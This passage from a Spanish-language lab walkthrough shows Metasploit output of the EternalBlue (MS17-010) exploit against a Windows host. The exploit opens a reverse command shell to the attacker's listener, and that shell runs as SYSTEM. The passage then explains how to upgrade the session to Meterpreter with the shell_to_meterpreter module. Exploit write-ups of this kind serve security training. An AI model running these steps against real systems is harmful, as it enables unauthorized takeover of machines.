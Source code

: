 ```bash
[*] 10.10.206.58:445 - Sending all but last fragment of exploit packet
[*] 10.10.206.58:445 - Starting non-paged pool grooming
[+] 10.10.206.58:445 - Sending SMBv2 buffers
[+] 10.10.206.58:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.206.58:445 - Sending final SMBv2 buffers.
[*] 10.10.206.58:445 - Sending last fragment of exploit packet!
[*] 10.10.206.58:445 - Receiving response from exploit packet
[+] 10.10.206.58:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.206.58:445 - Sending egg to corrupted connection.
[*] 10.10.206.58:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.206.58
[*] Command shell session 1 opened (10.2.11.100:4444 -> 10.10.206.58:49198) at 2023-03-28 18:39:21 -0500
[+] 10.10.206.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.206.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.206.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Shell a Meterpreter

Para migrar de la shell convencional que hemos obtenido a una `meterpreter`, seguimos estos pasos: primero, ponemos en segundo plano nuestra sesión actual con el comando `CTRL + Z`; segundo, buscamos un módulo en `Metasploit` que nos permita pasar de una shell básica a una sesión Meterpreter.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```

El resultado de la búsqueda nos proporciona el módulo `post/multi/manage/shell_to_meterpreter`. La única opción requerida por el módulo es el ID de sesión que se desea transformar en Meterpreter. En este caso, especificamos el ID de la sesión de la shell convencional que habíamos generado previamente, que corresponde al ID 1.
